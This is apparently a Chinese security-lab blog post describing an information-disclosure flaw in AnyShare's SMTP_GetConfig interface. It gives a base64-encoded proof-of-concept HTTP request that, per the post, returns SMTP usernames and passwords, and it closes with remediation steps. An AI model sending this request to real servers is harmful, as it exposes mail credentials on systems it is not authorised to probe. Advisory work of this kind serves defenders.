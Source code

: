 #  【成功复现】爱数AnyShare SMTP_GetConfig 信息泄露漏洞   
奥村燐  弥天安全实验室   2025-01-06 04:18  
  
网安引领时代，弥天点亮未来 ****  
  
  
  
  
  
****  
  
****  
  
**0x00漏洞描述**  
  
  
  
**爱数AnyShare的SMTP_GetConfig接口存在信息泄露漏洞。攻击者可以通过该接口获取到敏感的配置信息，例如SMTP服务器的用户名和密码等。**  
  
****  
****  
  
**0x01影响范围**  
  
  
  
**我也不知道。**  
  
****  
  
****  
  
**0x02复现过程**  
  
  
****  
  
**POC**  
```
UE9TVCAvYXBpL1NoYXJlTWdudC9TTVRQX0dldENvbmZpZyBIVFRQLzEuMQpIb3N0OiB4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHgKQ29udGVudC1UeXBlOiBhcHBsaWNhdGlvbi9qc29uCgp7fQ==
```  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hA4bUfHwjGiacWO2FqpNm1Ysq6D6OV6PjuFThNu6bJX6PHojUL3DOz57XzSalwc6XHgE3SDafDAgibQ/640?wx_fmt=png&from=appmsg "")  
  
  
****  
  
**0x03修复方案**  
  
  
  
**立即更新到最新版本的AnyShare，以确保所有已知的安全漏洞都已得到修复。**  
  
**检查并限制对SMTP_GetConfig接口的访问权限，确保只有授权用户才能访问。**  
  
**对SMTP服务进行加固，例如使用强密码策略，定期更换密码，并启用多因素认证。**  
  
**监控SMTP服务器的异常活动，如异常登录尝试或大量邮件发送。**  
  
**教育用户识别和防范钓鱼攻击，提高安全意识。**  
****  
  
  
 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  
  
